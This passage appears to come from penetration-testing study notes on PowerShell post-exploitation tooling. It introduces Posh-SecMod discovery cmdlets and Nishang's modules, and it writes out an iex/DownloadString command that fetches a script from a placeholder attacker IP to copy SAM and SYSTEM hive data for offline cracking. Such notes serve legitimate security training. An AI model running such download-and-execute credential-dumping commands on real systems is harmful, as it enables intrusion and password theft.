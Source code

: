 **Posh-SecMod** has several useful cmdlets we can use for host discovery purposes:
- Invoke-ARPScan
- Invoke-DBSQLite3Query
- Invoke-EnumSRVRecords
- Invoke-PingScan
- Invoke-ReverseDnsLookup.

### Post-Exploitation with PowerShell (with Nishang, PowerSploit, psgetsystem) - Theory

#### Nishang

[**Nishang**](https://github.com/samratashok/nishang) is another excellent post-exploitation framework. It brings together some of the best tools from other frameworks, in addition to Nishang-native tools as well.

Within this framework we can find a script for mostly any phase of our post-exploitation with utilities in the following categories.
- ActiveDirectory
- Antak-WebShell
- Backdoors
- Bypass
- Client
- Escalation
- Execution
- Gather
- MITM
- Misc
- Pivot
- Prasadhak
- Scan
- Shells
- Utility.

[*Gather* modules](https://github.com/samratashok/nishang/tree/master/Gather).
These modules will help us get information from our target system locally, that we could potentially use to move laterally for instance.

The `Copy-VSS` cmdlet will attempt to copy the SAM database using the VSS service, and if run on a domain controller, will try and copy the NTDS.dit and contents of the SYSTEM registry hive.
`iex (New-Object Net.Webclient).DownloadString("http://<AttackerIP>/Copy-VSS.ps1"); Copy-VSS`.
This command will copy the contents of the SYSTEM registry hive and the SAM file to the current working directory on the target. These can then be cracked offline.

The `Get-Information` cmdlet will get us a good deal of system information including:
- PuTTY trusted hosts
- PuTTY Saved sessions
- Recently used commands
- Shares on the target machine
- Domain Name
- Content of hosts file
- Running Services Account Policy
- Environment Variables
- Local Users
- Current user details
- SNMP information
- Installed applications
- Local Groups
- WLAN Info
